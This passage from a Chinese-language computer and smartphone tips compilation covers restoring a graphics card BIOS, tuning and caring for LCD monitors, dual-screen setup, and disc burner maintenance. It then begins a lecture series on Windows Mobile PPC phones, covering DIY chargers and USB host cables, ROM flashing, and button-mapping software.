答：刷新后如果出现花屏或不稳定现象，这时我们需要把备份好的BIOS文件重新刷回到显卡中，具体刷新的方法跟刷新新版BIOS的方法一样，只不过要将命令行中的newbios.rom改为backup.rom。首先你将AGP显卡拔下来，插上PCI显卡后开机，进入主板BIOS设置程序，选择Intergrated Peripherals选项，将Init Display First项的值改为PCI Slot，然后保存设置并关机。接下来将AGP卡重新插上，但仍让显示器连接在PCI显卡上，然后重新开机。最后按照前面的刷新方法，将正确的BIOS文件刷回去即可。这里要注意的一点是，输入刷新命令时要明确AGP显卡的编号（0表示AGP接口）。

如果你没有PCI显卡的话，首先另找一台机器，并在DOS启动软盘上建立一个自动批处理文件（AUTOEXEC.BAT），在该文本文件中写入以下命令行：nvflash（NVIDIA显卡使用，命令中的为备份的BIOS文件名）或Flashrom -p 0 Backup.rom（ATi显卡使用）。批处理文件编辑完成后，用该软盘重启需要修复显卡BIOS的电脑，读盘结束后等十几秒钟，最后重新启动机器，即可恢复正常。

### 五、显示器优化

显示器优化可能是整个硬件系统里面最容易被忽视的一个方面了，大多数人都觉得只要显示器能够正常显示出图像来就完事了，其实要获得完美的显示效果，我们还要对显示器进行一系列的优化工作才行哦。

#### 问题一

我现在用的是LCD液晶显示器，但是总觉得画质不如意，有点模糊，色彩也不够出色，字符也会出现虚影，请问是显示器本身的质量问题吗？

答：其实并不一定就是显示器本身的问题，我觉得关键在于你的显示器没有工作在最佳状态下面，因此需要进行以下几方面的设置。

- （1）调整几何参数

虽然液晶显示器号称无几何失真，但在实际使用中，由于液晶显示器的时钟与相位可能会输出不同步，因此也就会带来字符出现虚影、画面闪烁、水波纹的问题。这一问题只会出现在采用模拟（D-Sub）接口的显示器上，由于模拟信号在模/数转换的过程中会产生信号衰减，最终导致了字符的虚影。而数字（DVI）接口由于全数字化的传输方式，有效避免了信号衰减的问题，可以更有效地保证画面传输的问题，因此最好采用DVI接口（如果有的话）来连接你的LCD显示器。如果是D-Sub接口的话，我们可以按下AUTO键进行显示器几何参数的校正。一般情况下，你可以仔细观察显示器在文本状态下的画面，如果文字的笔画发虚，不够清晰锐利，那么就需要进行修正了。

- （2）调整适合的亮度

亮度的设置需要根据使用者喜好的不同，以及周围环境的不同具体而定。可能每个人都遇到过类似的情况，在深夜，关掉房间里的灯再去看显示器的屏幕，会发现屏幕非常刺眼，这时必须要通过降低亮度去让显示器变得“柔和”一些。而这也就是环境对于显示器亮度的影响了。在黑暗的环境下，你需要降低屏幕亮度，而在明亮的环境中（例如室外）也就需要适当地提升屏幕亮度，以保证获得更清晰的视觉效果。

- （3）对比度一定要准确

高对比度虽然可以让画面看上去细节更清晰，更有层次感，因此很多人都会认为对比度设置应该越高越好，但事实上却并非如此，因为当你过度提升了液晶显示器的对比度，会导致画面明亮部分细节的丢失与偏色，而对比度越高，这种情况也就越严重。其中的原因在于提升对比度的时候也同时提升了亮度，但现在的液晶显示器对于亮度/对比度的均衡性的控制并不到位，也就导致了上述情况的发生。我们要将对比度调到最大状态，而且保证画面没有细节的丢失，那么就需要通过一些照片去判断，找一副你熟悉的图片（明亮一些的），此时去提升显示器的对比度，当画面明亮部分的细节开始隐约不见的时候，此时就不应该再继续提升对比度指标了，比如图15的对比，右边的图像就是经过对比度调整的。

- （4）用好“显亮”功能

对比度调整好了之后，我们还要根据自己使用的不同需要，用好液晶提供的一些“显亮功能”。现在许多中高端液晶都内置了名称不同但作用一样的“显亮”功能。譬如飞利浦的“智亮”、明基的“Senseye 显彩科技”、SONY的“ECO显示模式”，它们都是通过硬件与软件的紧密结合，实现了显示画面全部或局部增亮，当开启全屏显亮模式后，整个画面亮丽了许多。我们应该学会在不同的时候，开启这项功能，而且液晶本身都会具备方便的快捷按键。比如在观看电影DVD时，我们应当将“显亮”功能调节到电影模式下，这样显示器的亮度就会增加，影片中阴暗处的一些细节就会显现出来。我们平时使用液晶最多的时候也就是文本操作，或者浏览网页，屏幕大多数地方都是以白色为主，所以此时我们就应该将“显亮”调节到“文本”模式下，这时候屏幕亮度会降低一些，这样就会减少屏幕亮度过高，长时间使用出现视觉疲劳。

- （5）调整色温很重要

一般显示器都会有几种预制的色温可供选择，常见的包括 5400K、6500K、9300K。前面的数字越大，表明色温越高，画面也就越偏于冷色调；相反，数字越小，色温越低，画面也就越偏于暖色调。一般来说我们都习惯将色温设置为 9300K，这是因为中国的景色一年四季平均色温约在 8000K～9500K 之间，将显示器的色温设定在9300K，屏幕所展现出的画面也就更接近于我们真实的生活。但有些时候我们观看欧美大片时，会发现画面可能会偏红、偏暖，那是因为他们的色温和我们不一样，只要我们将色温更改为 5000K 或 6500K 就会好些了。

- （6）设置好分辨率

很多人以为设置分辨率是小事一桩，事实上很多人对分辨率的设置都不正确，大家可以根据不同的显示器的标准分辨率来看看自己的显示器分辨率究竟是否正确。

| 显示器尺寸 | 建议分辨率 |
| :--- | :--- |
| 15英寸 | 1024 × 768 |
| 17英寸 | 1280 × 1024 |
| 19英寸 | 1280 × 1024 |
| 20英寸 | 1600 × 1200 |
| 20英寸宽屏 | 1680 × 1050 |
| 23英寸宽屏 | 1920 × 1200 |

#### 问题二

> 有人说LCD显示器寿命很短，而且很娇气，请问有什么方法让我的液晶显示器更加长寿呢？

答：LCD显示器使用起来只要一些地方多加注意，其实也不是那么容易损坏的。

- （1）避免磁场干扰

电磁场干扰是指在电路或环境中出现了不该出现的电压电流。电磁干扰的来源主要有电源、元件、导线、接头、散热风扇、日光灯、雷电和静电放电等，以及电视机、电冰箱、电风扇等耗电量大的家用电器，如果它们距离显示器太近，天长日久这些器件便有可能对显示器产生电磁干扰。在使用中，我们应把显示器放在离其他电磁场较远的地方（最典型的例子是不要将PC音箱放得离显示器太近，即使是防磁音箱也要注意）。平时如有条件，可时常使用显示器上的消磁功能消磁。

- （2）防止持续长时间显示同一画面

有些网友在看影视时，经常暂停后去做其他事情，长时间显示固定画面，对LCD屏幕的危害很大。因此，如果长时间不用，最好关闭LCD显示器。

- （3）防震动

不要冲击屏幕，因为LCD的屏幕十分脆弱，LCD中含有很多玻璃的和灵敏的电气元件，掉落到地板上，或者其它类似的强烈打击，会导致LCD屏幕以及CFL单元的损坏，所以要避免强烈的冲击和震动。还要注意不对LCD显示表面施加压力，更不能用尖锐的物品挤压屏幕。由于显示器内的电压达10kV～30kV，极易吸引空气中的尘埃粒子，尤其是在开关机的刹那。大量的维修实践证明，灰尘对电脑的威胁是很明显的，在灰尘大的环境中工作，由于印刷电路板会吸附灰尘，灰尘的沉积将会影响电子元器件的热量散发，使得电路板上元器件的温度上升，产生漏电而烧坏元件。灰尘也可能吸收水分，腐蚀显示器内部的电子线路，造成一些莫名其妙的问题。所以灰尘虽体积小，但对显示器的危害是不可轻视的。为有效预防灰尘危害，确保显示器在相对干净的环境中使用，我们应该给显示器购买一个专用的防尘罩，每次用完后应及时用防尘罩罩上（注意不要在关机后立即罩上，因为显示器在关机后需要一定时间来散热）。同时，我们还应多做清洁，用柔软的干布小心地从屏幕中心，螺旋式地向外擦拭，不正确的擦拭方法会在屏幕上留下划痕，造成永久性伤害。另外千万不能用酒精之类的化学溶液擦拭，更不能用粗糙的布、纸之类的物品来擦拭显示屏，也不要将液体直接喷到屏幕上（注意，一切清洁工作均须在拔掉电源线后进行）。

- （4）湿度不能太高和太低

显示器使用环境的湿度应保持在30%～80%之间，一旦室内湿度高于80%，显示器内部就会产生结露现象。电源变压器和其他线圈受潮后也易产生漏电，时间一长甚至有可能霉断连线。另外显示器的高压部件在湿度过高的情况下也极易产生放电现象，机内元器件受潮容易生锈、腐蚀，严重时会使电路板发生短路。相反，当室内湿度≤30%时，则会使显示器机械摩擦部分产生静电干扰，内部元器件尤其是高压包被静电破坏的可能性增大，影响显示器正常工作，严重情况下还会造成使用人员受伤及显示器报废。因此，显示器的使用环境必须注意防潮，长时间不用的显示器，可以定期通电一段时间，让显示器工作时产生的热量将机内的潮气驱赶出去。同时，为了防止静电，建议将电脑接地，尤其是在北方气候干燥的环境下。

- （5）控制室内温度

显像管作为显示器的一大热源，在温度过高的环境下工作性能和使用寿命将会大打折扣，某些虚焊的焊点可能由于焊锡熔化脱落而造成短路，使显示器工作不稳定。同时元器件也会加速老化，轻则导致显示器“罢工”，重则可能击穿或烧毁其他元器件。因此，要在显示器摆放的周围留下足够的空间，让它“呼吸”。在炎热的夏季，如条件允许最好把显示器放置在有空调的房间中，或用电风扇吹。

- （6）避免强光直照

如果显示器受强光照射，时间长了容易加速显像管荧光粉的老化，降低发光效率（在强光照射环境下，面对显示器工作的人员，眼睛也极易受到屏幕反射光线伤害）。因此，用户不要把显示器摆放在日光照射较强的地方，最好是将显示器放在光线不能直接照射的地方或者将室内的光线调柔和。

#### 问题三

我的LCD表面脏了，而且很难清洗，请问有什么方法可以弄清晰吗？

答：液晶在使用一段时间后，会发现屏幕上有很多灰尘，如果你打算清洁屏幕的话，不能用硬物来清洁，这样会损伤屏幕，所以使用柔软、非纤维材料的软布最好，比如脱脂棉、镜头纸或柔软的布等。平时一般普通的灰尘，用气球吹子吹去，或者软布轻轻掸去就好。如果碰上一些顽固污渍，就需要沾少许专用清洁剂，轻轻地将其擦去。值得注意的是，如果表面肮脏的程度比较厉害，那么涂上了清洁剂之后要稍等几分钟再用力擦拭，另外我们可以使用一些清洁屏幕专用的工具，譬如思高“拭亮”魔布。最后要提醒大家的就是，禁止使用酒精一类的化学溶液，因为这类物质会将屏幕上的一些保护涂层材料溶解损坏。另外，不要将清洁剂直接喷到显示屏幕表面，它很容易流到屏幕里面导致LCD屏幕内部出现短路故障，造成不必要的损失。

#### 问题四

我家里现在有两台显示器，请问我应该如何组合成为双屏显示的系统呢？

答：双屏显示系统需要有两台显示器，以及一块具备两个接口的显卡。首先我们安装好显示卡，然后我们看看如图16的显示卡接口。这块显示卡具有三个输出接口，从左到右分别是“VGA、S（AV）端子、DVI”，只要在DVI接口和VGA接口接上不同的两台显示器就可以了。不过不少廉价的液晶显示器都没有提供DVI接口，只有D-Sub接口，这样我们就需要一个DVI转D-Sub的转接头，将转接头插在显卡DVI接口上，再将显示器连入显卡即可。

接下来将两台显示器的信号线接到显卡的两个接口上，同时接好电源线。开机之后，你就会看到两台显示器的屏幕同时显示出了开机画面，到目前为止你已经算是组建了一个双屏显示系统了。不过这样的双屏其实等于单屏，因为两个显示器上面显示的内容是一模一样的，如果我们想一台显示器看电影，一台显示器看网页的话，就需要在显示卡的驱动程序里面进行一定的设置。以ATI显示卡的驱动程序为例：在Windows的显示属性里面会列出存在的两台显示器，如果是第一次使用，第2台显示器是灰色的，表示没有启用。双击第2台显示器，系统会弹出对话框，询问是否启用显示器。选择“是”之后，第二台显示器就会正确地显示扩展的Windows桌面。此时点击“高级→显示”进入显示设备设置窗口。在这里可以对存在的显示设备进行方案设置，我们可以给两台显示器设置不同的分辨率和刷新率，设置完成了之后，你的双屏显示系统也就大功告成了。

### 六、刻录机优化

#### 问题一

请问如何让我的刻录机总是运行在最佳的状态呢？

答：要让刻录机运行在最佳状态，关键在于保养好你的刻录机，以及让刻录机拥有一个“干净舒适”的环境。

- 方法一：不要经常用刻录机读盘

因为刻录机和光驱是有区别的，刻录机的读写速度有三种：写入速度、擦写速度和读盘速度，有些用户看到刻录机有读盘功能，就以为刻录机在读盘方面和光驱是一样的，甚至有人会误认为刻录机的功能多，那么它的读盘性能要比单纯的光驱强，其实不然。如果经常用刻录机看碟、听CD，会对刻录机造成很大的损坏。而且读盘只是刻录机的一个附带功能，在读盘性能方面，它是没法和专业的读盘光驱相提并论的，如果长期把它当光驱使用的话，会使得激光头老化变快，那么整个刻录机的寿命也就会缩短。当然解决的最好办法是用户自己另备专用的光驱来读盘，这样就不会增加刻录机的额外负担了。如果你家里只有一个刻录机的话，那么建议你把常用的光盘弄成虚拟镜像在硬盘里面读取。

- 方法二：选择慢速刻录

我们在刻录的时候如果不赶时间，应该尽量选择慢速。

##### 方法三：

我们要选用质量较好的刻录盘片，除了选择好的盘片之外，保护好已刻录好的盘片也是很重要的。好的光盘并不代表它的容量就无限大，有的用户看到自己的光盘正版，价格不菲，所以一心想在一张盘上多刻点，节约成本嘛。但是如果盘子的容量有限，或是刻录机的技术不先进的话，就很容易使刻录机的激光头在刻盘容量已满之后，仍然运转，那就会大大损伤激光头。

##### 方法四：

灰尘是刻录机的天敌。虽然刻录机外表看起来很严密，可灰尘是无孔不入的角色，一旦灰尘入侵，就会造成很多的问题。特别是刻录机在刻录盘片时，刻录机的激光头通过发射出高温的激光来实现数据的写入，而此时如果有灰尘入侵，那么落在激光头上的灰尘很可能被烧结到光头上，那么过多灰尘的烧结，就会大大影响整个盘片的刻录效果。盘片刻录好之后，当你再次读取数据的时候，由于表面有灰尘，所以也就严重地影响了数据的读取。为了避免灰尘进入，建议用户不要将刻录机的托盘滞留在外面很久，取出或放入盘片后，迅速把刻录机仓门关闭，这样能比较有效地防止灰尘的进入。同时，刻录机在使用一段时间之后，激光头上或多或少有一些灰尘，会直接影响到刻录效果，所以用户除了防止灰尘的进入之外，还要定期对刻录机进行清洁保养。

##### 方法五：

在刻录机的使用过程中，刻录机必须保持水平放置，以防止光盘的“跑动”而降低刻录质量，损坏激光头。另外，如果你的机箱轻薄，内置风扇的高速转动可能会产生轻微的震动，这样的话，可能对刻录机内部的部件有一定的损害，特别是激光头，如果正在刻录的话，会严重影响刻录质量。如果这种震动来源于内置刻录机工作时主轴电机的高速转动，那么这种震动一旦超过光头的循机伺服及聚集伺服的范围，激光点在光盘上就会产生偏差，从而导致刻录失败，同时也将严重损坏刻录机光头。所以我们必须把机箱垫平，减少机箱的震动，提高刻录的质量和成功率，同时也能较好地保护刻录机。

##### 方法六：

最后就是刻录的时候尽量不要执行其他程序，虽然现在刻录技术发展迅速，大部分刻录机宣称在刻盘时可以运行其他程序，Windows系统也是支持多任务同时进行，但是系统多任务工作会造成数据读入光盘缓冲区的速度降慢、中断而导致刻录失败。为了避免刻录的失败，我们在刻录前最好先关闭所有正在运行的程序，例如后台的防火墙、杀毒软件等也最好关闭，以防万一嘛，毕竟现在的刻录机刻一张盘要的时间会很短，耽误不了你多少时间，这样就既可以保证刻录的质量也会保证刻录机的安全。

#### 问题二

我在刻录的时候经常都会刻坏碟片，已经证实和我的刻录机无关了，请问怎么样才可以让刻录的成功率提高些呢？

答：首先，在刻录之前我们应该整理好需要刻录的文件，并集中存放在硬盘的同一个文件夹下，因为DVD刻录机在工作时，都要将要刻录的数据从硬盘中先预读到光驱的缓存中去，然后从缓存中读取数据写入到DVD盘片中。如果想要刻录的数据分布在硬盘的各个分区中，位置比较混乱，那么从硬盘中读取数据的时间将会大大增长，这样可能会导致DVD刻录机的缓存中缺少数据，从而引起操作超时的错误，造成刻录失败。不仅数据不在同一个分区上会发生以上的故障，有时硬盘在同一个分区不同的文件夹下也会产生这样的错误，因此我们在进行刻录前尽量将所有要刻录的数据存放在一个文件夹下面，避免此类错误发生。DVD刻录机在刻录时要占用大量的系统资源，有时硬盘中没有足够的空间，也会导致系统缓存不足而出现刻录失败。因此在刻录时还要确定硬盘要有足够的空间供系统缓存用。

其次是尽量使用同一软件刻录，刻录时尽量一次性写入，因为目前的刻录软件非常多，刻录的原理并不完全相同，因此我们完全可以只用一种刻录软件，譬如用NERO刻录所有的碟片。如果是反复刻录同一盘片，那就更加要用一款软件了，否则不但会出现刻录不成功的现象，以前刻入的数据也会一并破坏掉。在刻录之前，我们要尽量将所要刻录的内容整理后够刻录一张盘片时再一次性地写入，并将盘片封口。虽然目前的DVD刻录机已经支持多次写入功能，但多次写入时出现错误的机率将会更大，有时出现刻录失误，整张盘片便即毁坏。另外在刻录时尽量给盘片留一定的空间，如4.7GB容量的盘片，我们写入4.65GB的数据即已足矣，最好不要进行超刻，以减少刻录失败的机率。尽管DVD刻录机是允许多次记录的，但是经验告诉我们，有时候往往不封口的盘片到别的机器有可能出现无法读取数据的情况，因此，如果你是将这些资料带出去交流的话，最好将它们全部封口，容量较少的数据可以利用CD-R盘片进行刻录，以减少成本。

很多朋友现在为了提高性价比，经常往盘片上刻录超出盘片容量的数据，称为“超刻”，说起来总有点“超频”的味道。但站在提高刻录成功率的角度上，我不建议大家用超刻，因为超刻以后的盘片兼容性很差，在许多机器上都无法正常读出。并且刻录失败的机率也比标准刻录时要大得多，最重要的是超刻并不能提高多少刻录时间，试想少花两三分钟的时间与刻坏一张盘片相比，真正有些得不偿失了。不仅如此，在刻录一些重要的影音文件还应该减速刻录，以提高记录的成功率，特别是在刻录各种影音文件时，采用减速刻录的盘片兼容性更好一些，在大部分的机器中都能够顺利读出，因此适当时候选择减速刻录还是十分有必要的。

## PPC智能手机 使用技巧十二讲

文/龚师傅

### 第一讲 PPC智能手机概述

所谓“智能手机”，简单来说，可以认为是内嵌了开放式操作系统的手机。普通手机的内置软件是非开放的，其功能在厂家设计完成后基本上就无法加以改动了，而智能手机最大的特点就是内嵌了开放式操作系统，就和电脑一样，可以通过安装各种软件增加和完善手机功能，这也是今后手机发展的趋势。

#### 一、智能手机市场概述

目前市场上的智能手机，按所使用的操作系统不同，可以分为Windows Mobile、PALM、Linux和Symbian四大类，其中：Symbian 是目前最主流的智能手机操作系统，被诺基亚、索爱等几大手机巨头鼎力支持；Windows Mobile 则凭借微软强大的实力，正处在强劲的上升势头中；使用PALM 和 Linux 系统的手机产品目前在国内市场尚不多见，这里不多谈。因此，可以说目前国内智能手机操作系统市场主要是 Windows Mobile 和 Symbian 之争。如图1所示即为一款使用 Windows Mobile 系统的智能手机。


虽然眼下 Symbian 仍然在智能手机市场占据着较大优势，但其最大竞争对手微软的前进步伐已经越来越快，Windows Mobile 的市场占有率正在与日俱增，特别是随着越来越多的手机制造商和IT厂商加入 Windows Mobile 智能手机阵营，Symbian 面临着前所未有的威胁。目前内地市场上 PPC 智能手机品牌主要有“多普达”和“联想”这两个品牌，另外“夏新”、TCL 等也在开始步入 PPC 手机市场。

#### 二、PPC智能手机的特点

和 Symbian 系统天生为手机服务不同，PPC 智能手机脱胎于 PPC 掌上电脑，实际上我们可以认为 PPC 智能手机就是加上了手机模块的 PPC 掌上电脑。它们在操作界面和主要功能上几乎完全一样。另外还有很重要的一点，微软移动设备操作系统和目前个人电脑上使用最为广泛的 Windows 系列操作系统在使用习惯上有着天然的相似性，同时两者兼容性也非常好。比如从文件夹结构看，PPC 手机上也有 Program Files、Windows、My Documents 等文件夹，功能和个人电脑完全一样（如图2所示），一般熟悉电脑操作的朋友很容易上手，这一技术特点也正是 PPC 手机的最大优势所在。不过和 Symbian 相比，Windows Mobile 在与手机结合的紧密度、使用便利性、对硬件及电源要求等方面，还存在一些不足。比如现在 PPC 智能手机的体积都比较偏大，待机时间较短，而且价格普遍偏高等。


这里大家要注意一点，以前微软智能手机分为 PPCphone 和 Smartphone 两个平台，二者软件上存在一定兼容问题（除了是否支持手写外，主要是屏幕分辨率不一致），而随着 Windows CE 5.0 的推出，加上 Smartphone 硬件平台性能的增强（屏幕分辨率普遍提升到和过去 PPC 一样的 320 × 240），目前微软移动设备操作系统都统一在 Window Mobile 平台之下了。

#### 三、你需要购买智能手机吗

本讲座在开篇之初，先提醒大家注意下面一个事实：使用智能手机一定要抛弃传统手机的思想，需要不断学习和培养 DIY 的精神和能力。如果你不喜欢在这方面钻研，那请使用普通手机（当然也就没有继续阅读本讲座的必要了），否则用智能手机只会让你产生“花钱买罪受”的感觉，因为智能手机除了体积较大、使用复杂外，很多功能还要靠第三方软件去完善，一句话，我们需要把智能手机当成电脑去用，当然这也正是玩智能手机乐趣所在。
好了，关于PPC智能手机的概述就简单谈这么多，后面将为大家详细讲述PPC智能手机主要使用技巧，虽无法全面详尽，但愿能起到抛砖引玉的作用。

### 第二讲 配件DIY技巧点滴

智能手机价格高，配件价格更是高得离谱，不少配件有钱都还不一定买得到。如果你购买的是配件不齐的二手机子，或者在保修期结束后配件损坏丢失，自己动手进行DIY就很有必要了。下面主要以笔者使用的联想ET560这款PPC智能手机为例简单介绍一下相关配件的DIY方法，其他智能手机（如夏新E850），只要有相关接口资料，也可用类似方法DIY配件。

#### 一、制作“原装”充电器

ET560尽管可以通过MINI USB进行充电，但是由于电流不足，不能开机充电，而且在进行ROM升级等操作时必须使用原装充电器，这样如果你的智能手机没有原装充电器，或者充电器损坏丢失，都会给日常使用带来很多不便。而该充电器在市场上没有兼容产品，原装的要200多元还不一定买得到。不过好在我们完全可以DIY一个这样的充电器。

通过观察，我们发现ET560的充电口和三星E708、MOTOC520、TCL31TC等手机的数据接口是一样的，只是针脚位置不同而已。这样你可以去市场上花10元钱买一个相关手机的兼容充电器，然后按ET560的针脚定义重新排列针脚即可（具体定义见本讲第二部分后面）。要注意数据接口的开启及针脚重新排列需要有一定技巧，大家要小心操作，否则稍不注意就会“交学费”。另外如果你嫌兼容充电器的电流不够大（试验证明普通的0.5A充电器不能保证支持ET560在开着屏幕玩游戏时或上网的同时进行充电），可以去电子市场买一个5V 2A的开关电源，然后再买一根匹配的母头，把数据线剪断，从6-9针脚任何一个里面引出红线，从10-13针脚里任何一个引出黑线（针脚的号码是以接头插入ET560机体之后，最靠近MINI USB的针脚为1号），然后按照“内正外负”的原则接上母头即可，接头处可用热缩管密封。这样一个大电流的“原装充电器”就制作好了，如图3所示。


图3 自制原装充电器

另外ET560没有兼容电池，而且原装电池比较昂贵，我们可以到市面上购买一个可安装四节充电电池的电池盒，在正极焊一个二极管，防止回充，再焊上一个USB母头，就能做成一个ET560的简易外置电源，以满足外出旅行的需要。

#### 二、制作USB HOST线

ET560具有一个很特殊的功能就是USB HOST功能。换句话说ET560能像电脑一样连接某些USB外置，比如USB键盘、U盘、读卡器，甚至USB GPS MOUSE等。不过比较遗憾的是，要实现USB HOST功能需要用到ET560的原装底座（上面有USB母接口）。而这一底座不仅价格昂贵，而且现在也基本上买不到了。那么ET560的USB HOST功能是否就因此废掉了吗？答案是否定的，我们完全可以自己动手来制作一根USB HOST线。
具体方法和上面DIY充电器的过程类似，首先还是要找一根合适的数据接头，推荐用三星A288的串口数据线（针齐全），然后去电脑市场买一根USB延长线，将其剪断，用其中的USB母头，一一对应连接数据接头的15-18号针，具体顺序是：量电脑上USB母头的两边的两个针（USB一共四根针），哪根是正5V就接15号针，从这个针开始然后就按照顺序接USB母头的16、17、18针，如图4所示。连接好后，经测试无误后，我们就可以用热熔胶进行密封了。使用这根自制的USB HOST线，我们就可以充分享受到USB HOST功能的非常乐趣了。


图4 自制USB HOST连线

如果你动手能力强的话，完全可以把上面两种方法结合起来，制作一根集充电、同步、USB HOST功能为一体的“三合一”连线，外出使用时尤其方便。

附：ET560的针脚定义

1. USB SLAVE PWR
2. USB SLAVE D-
3. USB SLAVE D+
4. 地
5. USB HOST/OTG ID
6-9号为5伏输入
10-13号为地
14. USB HOST/OTG VBUS
15. USB HOST/OTG VBUS
16. USB HOST/OTG D-
17. USB HOST/OTG D+
18. USB HOST/OTG 地

##### 小技巧：PPC掌上电脑也能连接游戏手柄

很多朋友都喜欢使用掌上电脑玩游戏，但其操控并不太方便。如果你的PPC手机具备USB HOST功能的话，就有福了。因为其可以连接游戏手柄。我用自己的联想ET560，连接手柄成功，爽了一把魂斗罗，可以说是完美支持。下面说一下具体方法：

上网找一个名为“hidgamep.dll”的手柄驱动程序，把它复制到PPC的Windows文件夹下。打开注册表编辑器，依次打开“HKEY_LOCAL_MACHINE\Drivers\HID\LoadClients\Default\Default”。然后在第二个Default下新建一个名字也是Default的项，进入新建的项，再在新建的Default下新建一个名字为Gamepad的项。最后在Gamepad里面新建一个字串值，名称为DLL，字串为“hidgamep.dll”，保存后退出。重启后插上手柄，如果屏幕上显示“Gamepad Attached”，那恭喜你，手柄连接成功。

使用掌上的USB HOST功能不仅可以连接手柄，还可以连接U盘、读卡器、移动硬盘等存储设备，也可以直接连接普通的USB键盘和鼠标（如图5所示），用来打CS、帝国、红警之类的游戏也很爽。不过USB HOST功能需要用配套底座或转接头实现，如果没有转接头的话可以自制，比如我为ET560就自制了转接头，很简单，找一个信号接头和USB母头，将相关信号线焊接好即可。


### 第三讲 ROM升级技巧

ROM升级，又称“刷机”，有些类似电脑上重装操作系统。在PPC智能手机上，刷机有着许多独特的用途，同时也是体验智能手机乐趣的重要途径，不少玩家就经常刷来刷去地，不过ROM升级也并非总是“喜刷刷”，因为刷机具备一定风险，弄不好会导致“机毁人伤（伤心）”的后果，因此动手刷机前，请一定要三思后而谨慎行事。

#### 一、刷机的作用及常用方法

一般来说，对于PPC智能手机而言，升级ROM主要有四大用途：

- 一是改变语言的版本。由于智能手机价格高昂，因此市场上“水货”也比较多，这些水货的语言版本通常都不是简体中文的，我们可以通过刷机来将其变为简体中文。
- 二是升级操作系统版本。比如将使用PPC 2003SE版本的产品升级为WM5。
- 三是修改系统BUG，增减部分功能，这一点和普通手机类似。
- 四是其他一些特殊用途。比如去掉系统自带程序，增加ROM中用户可用空间等。当然这些功能不是截然分开的，相互之间也有交叉，比如在升级操作系统版本的同时，也可以改变语言版本并增加ROM可用空间。

由于刷机和其他DIY行为不同，具有较大的风险，因此是否需要刷机，请大家对照一下上面的几点用途，看自己是否的确有其中所列的需求。

不同产品升级ROM的方法并不完全相同，但是基本的方法是差不多的，主要有两种升级方法：一是通过存储卡进行升级（多用于修改系统BUG）；二是通过数据线连接电脑后进行升级，这也是大多数产品采用的方法。升级前还有一些要注意的基本事项，比如确定ROM版本的匹配；保证可靠供电；真正弄清楚升级的具体要求和步骤；用来升级的电脑要运行稳定等。刷机是有一定危险的，刷坏了可能就要返修了。但一般情况下，如果严格按正常方法操作的话，基本也没什么问题。所以，升级ROM需要做到“胆大心细”。

#### 二、用存储卡升级ROM的方法

这里仍然以笔者使用的ET560为例，说明一下用存储卡升级ROM的具体方法。

到网上下载升级文件，解压后备用，通常共有四个文件。

准备一张64M SD或MMC卡（注意：必须是64M，不能大也不能小），用读卡器格式化成FAT格式，把升级的四个文件拷贝到卡的根目录中。

接着设法进入ET560的工程模式。具体方法如下：同时压住音量减小键与电话挂断键不放，点击一下reset键，先放开音量减小键再放开电话挂断键，这样就进入了ET560的工程模式。

选择其中的<ROM Update>，按动五向键中的向右键进入子目录。继续选择Rom Update，你就能看到存储卡上的四个文件：IMMI.BIN（无线模块升级程序）、VBOOT.BIN（系统引导区升级程序，如果此文件升级失败，ET560就要返厂维修）、GSM.BIN（无线模块升级程序）、XIP.BIN（系统升级程序，32Mflash中的升级文件），根据需要选择升级文件，依次升级完成后冷启即可。升级界面如图6所示。


联想最新的PPC智能手机ET980也可以用mini_SD卡升级OS。方法很简单，就是先插入存有CHSMMDD.980系统程序的mini_SD卡（其中MMDD代表月日），然后装上电池,同

#### 三、联机升级ROM的一般原则

一般情况下，使用更多的是联机升级。不同型号机子的刷新方法都是大同小异的。首先我们要准备好合适的ROM数据文件和刷机程序，并在电脑上安装好刷机所需的程序。推荐用装有电池的笔记本电脑，可杜绝由于突然断电造成的升级失败。接下来用数据线连接好需要刷机的智能手机，再运行刷机软件，按提示一步步进行操作就可以了。整个过程通常需要20~30分钟的时间。

联机升级时，我们还可以先读出ROM中的原有程序，使用特殊软件修改，比如缩小其体积后，再重新刷回，这样就能增加机子Storage可用空间的大小，甚至加入自己需要的软件到ROM中。当然不同机型具体的刷新方法和所需要的文件都还是各不相同的，限于篇幅，这里就不一一为大家详细讲解了。

### 第四讲 按键及输入法使用技巧

大多数PPC智能手机没有配备物理键盘，像拨号等操作都要通过触摸屏，感觉不是太方便。这种情况下，充分利用好PPC智能手机上少数几个功能键就很有必要了，使用得当，可以大大提升我们使用手机的效率。本讲中就为大家谈谈按键的使用技巧，主要是相关软件的使用和设置。

#### 一、按键映射程序ButtonMapper

ButtonMapper说得简单点就是一个让PPC上快捷按键可以“复用”的小软件。ButtonMapper安装后，会生成一个VITO的目录。在程序里打开ButtonMapper主程序，启动并打开按键映射程序ButtonMapper后，会在“设置”里出现一个“button”，替换了原来的“按键”。点击button，就可以定义按键了。在替换的按键配置里，会多出一个Hold，就是可以定义按住按键启动的程序。也就是说，一个按键可以启动两个程序，定义两个操作。比如你可以将按键配置为：按“联系人”（不改，使用默认设置），即启动联系人；而按住，即长按（Hold）时可设定为启动其他常用程序。按Home键显示Today画面；长按Home键相当于OK/close等。而且这个程序还支持“宏”（Macro），可以实现点击屏幕，选择键盘输入法等一系列操作。使我们的日常使用更加方便。

除了ButtonMapper，PPC上还有其他按键映射程序，如ButtonMAX, DoubleLaunch等，其中ButtonMAX功能更强大，可一键映射三个操作，且系统功能操作更多，特别是宏操作更加强大。另外有一款名为Absolute SimpleClose的免费软件，该程序能够把PPC的任何一个按键设置成关闭功能，一按即可将使用的软件进程中止，这样就不必每次都用任务管理器来关闭应用软件了，此外我们还可安装一款名为ALTTAB的小软件，然后将合适的按键分配给它，就可以快捷地在多个软件中进行切换了，非常具有实用性。

#### 二、巧用PPC录音键和音量键

一般的PPC智能手机机身左侧靠近顶部都有一个录音按键，当紧按住它不放时，PPC内的便笺程序就会自动启动并开始录音，放手时则会自动停止录音，并将录制好的内容保存为WAV音效文件。另外，当用户正在使用便笺或Word撰写文章时，按PPC的录音键也可在文中插入录音片段。比如当你参加产品发布会或进行采访活动时，如果怕漏听重点，不妨先用PPC录音，到后期整理时再把录音整理成文字。另外PPC内置的日历（Calendar）和联系人（Contacts）内都有笔记录音功能，大家不妨一试。

如果你不怎么使用录音功能的话，还可以将录音键设为其他程序的快捷键。从笔者个人体会来看，将其设定为“开始菜单”的开启键是最实用的。这样有利于我们单手操作手机。

